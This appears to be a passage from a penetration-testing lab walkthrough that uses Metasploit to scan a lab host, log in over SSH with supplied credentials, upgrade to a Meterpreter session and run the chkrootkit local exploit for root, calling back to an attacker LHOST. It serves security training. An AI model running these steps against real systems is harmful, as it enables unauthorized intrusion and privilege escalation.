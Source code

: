 ![Metasploit - post/linux/manage/sshkey_persistence](.gitbook/assets/image-20230422152922123.png)

------

## Lab 3 - Persistence

> 🔬 Same as [Privilege Escalation - Rootkit Scanner](https://attackdefense.com/challengedetails?cid=1396)
>
> - Target IP: `192.101.97.3`
> - Metasploit **`post/linux/gather/`** credentials dumping modules

```bash
ip -br -c a
	192.101.97.2/24
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 192.101.97.3
setg RHOST 192.101.97.3
workspace -a Linux_Persistence
db_nmap -sV 192.101.97.3
```

```bash
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
```

### Exploitation

```bash
search ssh_login
use auxiliary/scanner/ssh/ssh_login
options
set USERNAME jackie
set PASSWORD password
run
sessions
```

- Upgrade the `shell cmd/unix` sessions to a `Meterpreter` session

```bash
sessions -u 1
```

### Privilege Escalation

```bash
search chkrootkit
use exploit/unix/local/chkrootkit
set CHKROOTKIT /bin/chkrootkit
set SESSION 2
set LHOST 192.101.97.2
run

# CTRL+Z to background the shell session
```
